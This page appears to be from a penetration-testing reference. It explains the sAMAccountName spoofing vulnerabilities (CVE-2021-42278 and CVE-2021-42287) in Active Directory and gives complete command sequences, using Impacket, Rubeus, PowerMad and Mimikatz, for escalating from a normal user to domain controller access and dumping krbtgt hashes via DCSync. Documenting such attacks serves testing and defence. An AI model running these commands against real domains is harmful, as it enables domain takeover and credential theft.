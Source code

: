 ```yaml
---
description: CVE-2021-42278 and CVE-2021-42287
---
```


# sAMAccountName spoofing

## Theory

{% hint style="warning" %}
_At the time of writing (10th of December, 2021), the research around those vulnerabilities is still ongoing. The content of this page may vary depending on the various researches results._
{% endhint %}

In November 2021, two vulnerabilities caught the attention of many security researchers as they could allow domain escalation from a standard user.

### CVE-2021-42278 - Name impersonation

Computer accounts should have a trailing `$` in their name (i.e. `sAMAccountName` attribute) but no validation process existed to make sure of it. Abused in combination with CVE-2021-42287, it allowed attackers to impersonate domain controller accounts.

### CVE-2021-42287 - KDC bamboozling

When requesting a Service Ticket, presenting a TGT is required first. When the service ticket is asked for is not found by the KDC, the KDC automatically searches again with a trailing `$`. What happens is that if a TGT is obtained for `bob`, and the `bob` user gets removed, using that TGT to request a service ticket for another user to himself (S4U2self) will result in the KDC looking for `bob$` in AD. If the domain controller account `bob$` exists, then `bob` (the user) just obtained a service ticket for `bob$` (the domain controller account) as any other user :exploding\_head:.

{% hint style="success" %}
As Elad Shamir said in his article [Wagging the Dog](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html#solving-a-sensitive-problem), "S4U2Self works for a user marked as sensitive for delegation and a member of the Protected Users group".
{% endhint %}

## Practice

### Machine Account

The ability to edit a machine account's `sAMAccountName` and `servicePrincipalName` attributes is a requirement to the attack chain. The easiest way this can be achieved is by creating a computer account (e.g. by leveraging the [MachineAccountQuota](../domain-settings/machineaccountquota.md) domain-level attribute if it's greater than 0). The creator of the new machine account has enough privileges to edit its attributes. Alternatively, taking control over the owner/creator of a computer account should do the job.

The attack can then be conducted as follows.

1. Clear the controlled machine account `servicePrincipalName` attribute
2. Change the controlled machine account `sAMAccountName` to a Domain Controller's name without the trailing `$` -> [CVE-2021-42278](samaccountname-spoofing.md#cve-2021-42278-name-impersonation)
3. Request a TGT for the controlled machine account
4. Reset the controlled machine account `sAMAccountName` to its old value (or anything else different than the Domain Controller's name without the trailing `$`)
5. Request a service ticket with S4U2self by presenting the TGT obtained before -> [CVE-2021-42287](samaccountname-spoofing.md#cve-2021-42287-kdc-lookup)
6. Get access to the domain controller (i.e. [DCSync](../credentials/dumping/dcsync.md))

{% hint style="warning" %}
At the time of writing (10th of December, 2021), the tools and features that allow exploitation of these vulnerabilities are in development

* Rubeus: [https://github.com/GhostPack/Rubeus/tree/pac](https://github.com/GhostPack/Rubeus/tree/pac)
* Impacket's getST: [https://github.com/SecureAuthCorp/impacket/pull/1202](https://github.com/SecureAuthCorp/impacket/pull/1202)
* Impacket's renameMachine: [https://github.com/SecureAuthCorp/impacket/pull/1224](https://github.com/SecureAuthCorp/impacket/pull/1224)
* krbrelayx's addspn: [https://github.com/dirkjanm/krbrelayx/pull/20](https://github.com/dirkjanm/krbrelayx/pull/20)
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
On UNIX-like systems, the steps mentioned above can be conducted with

* [krbelayx](https://github.com/dirkjanm/krbrelayx)'s (Python) addspn script for the manipulation of the computer's SPNs
* [Impacket](https://github.com/SecureAuthCorp/impacket)'s (Python) scripts (addcomputer, renameMachine, getTGT, getST, secretsdump) for all the other operations

```bash
# 0. create a computer account
addcomputer.py -computer-name 'ControlledComputer$' -computer-pass 'ComputerPassword' -dc-host DC01 -domain-netbios domain 'domain.local/user1:complexpassword'

# 1. clear its SPNs
addspn.py -u 'domain\user' -p 'password' -t 'ControlledComputer$' -c DomainController

# 2. rename the computer (computer -> DC)
renameMachine.py -current-name 'ControlledComputer$' -new-name 'DomainController' -dc-ip 'DomainController.domain.local' 'domain.local'/'user':'password'

# 3. obtain a TGT
getTGT.py -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController':'ComputerPassword'

# 4. reset the computer name
renameMachine.py -current-name 'DomainController' -new-name 'ControlledComputer$' 'domain.local'/'user':'password'

# 5. obtain a service ticket with S4U2self by presenting the previous TGT
KRB5CCNAME='DomainController.ccache' getST.py -self -impersonate 'DomainAdmin' -spn 'cifs/DomainController.domain.local' -k -no-pass -dc-ip 'DomainController.domain.local' 'domain.local'/'DomainController'

# 6. DCSync by presenting the service ticket
KRB5CCNAME='DomainAdmin.ccache' secretsdump.py -just-dc-user 'krbtgt' -k -no-pass -dc-ip 'DomainController.domain.local' @'DomainController.domain.local'
```

{% hint style="success" %}
When using [Impacket](https://github.com/SecureAuthCorp/impacket)'s addcomputer script for the creation of a computer account, the "SAMR" method is used by default (instead of the LDAPS one). At the time of writing (10th of December, 2021), the SAMR method creates the account without SPNs, which allows to skip step #1.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
On Windows systems, the steps mentioned above can be conducted with&#x20;

* [PowerMad](https://github.com/Kevin-Robertson/Powermad/)'s (PowerShell) `New-MachineAccount` and `Set-MachineAccountAttribute` functions for the creation and manipulation of a computer account
* with [Rubeus](https://github.com/GhostPack/Rubeus) (C#) for the requests of Kerberos TGT and Service Ticket
* with [Mimikatz](https://github.com/gentilkiwi/mimikatz) (C) for the [DCSync](../credentials/dumping/dcsync.md) operation

```powershell
# 0. create a computer account
$password = ConvertTo-SecureString 'ComputerPassword' -AsPlainText -Force
New-MachineAccount -MachineAccount "ControlledComputer" -Password $($password) -Domain "domain.local" -DomainController "DomainController.domain.local" -Verbose

# 1. clear its SPNs
Set-DomainObject "CN=ControlledComputer,CN=Computers,DC=domain,DC=local" -Clear 'serviceprincipalname' -Verbose

# 2. rename the computer (computer -> DC)
Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "DomainController" -Attribute samaccountname -Verbose

# 3. obtain a TGT
Rubeus.exe asktgt /user:"DomainController" /password:"ComputerPassword" /domain:"domain.local" /dc:"DomainController.domain.local" /nowrap

# 4. reset the computer name
Set-MachineAccountAttribute -MachineAccount "ControlledComputer" -Value "ControlledComputer" -Attribute samaccountname -Verbose

# 5. obtain a service ticket with S4U2self by presenting the previous TGT
Rubeus.exe s4u /self /impersonateuser:"DomainAdmin" /altservice:"ldap/DomainController.domain.local" /dc:"DomainController.domain.local" /ptt /ticket:[Base64 TGT]

# 6. DCSync
(mimikatz) lsadump::dcsync /domain:domain.local /kdc:DomainController.domain.local /user:krbtgt 
```
{% endtab %}
{% endtabs %}

![](<../../../.gitbook/assets/samaccountname spoofing.png>)

### User account

An alternative to using computer accounts is to have enough permissions against a user account (cf. [Access Controls abuse](../access-controls/)) to edit its `sAMAccountName` attribute (i.e. `WriteProperty` on the attribute, or on the « general information » or « public information » property sets, or `GenericWrite`, or `GenericAll`).&#x20;

This attack path also requires knowledge of the user account password or hash (to obtain a TGT), which can be obtained (or set) in many ways (e.g. [Targeted Kerberoasting](../access-controls/targeted-kerberoasting.md), [Shadow Credentials](shadow-credentials.md), [Forced Password Change](../access-controls/forcechangepassword.md)).

Appart from the computer account creation and SPNs manipulation, the exploitation steps are the same as with a [machine account](samaccountname-spoofing.md#machine-account). If the account has SPNs that point to its name, they will have to be removed for the renaming operation to work.

## Resources

{% embed url="https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html" %}

{% embed url="https://exploit.ph/more-samaccountname-impersonation.html" %}
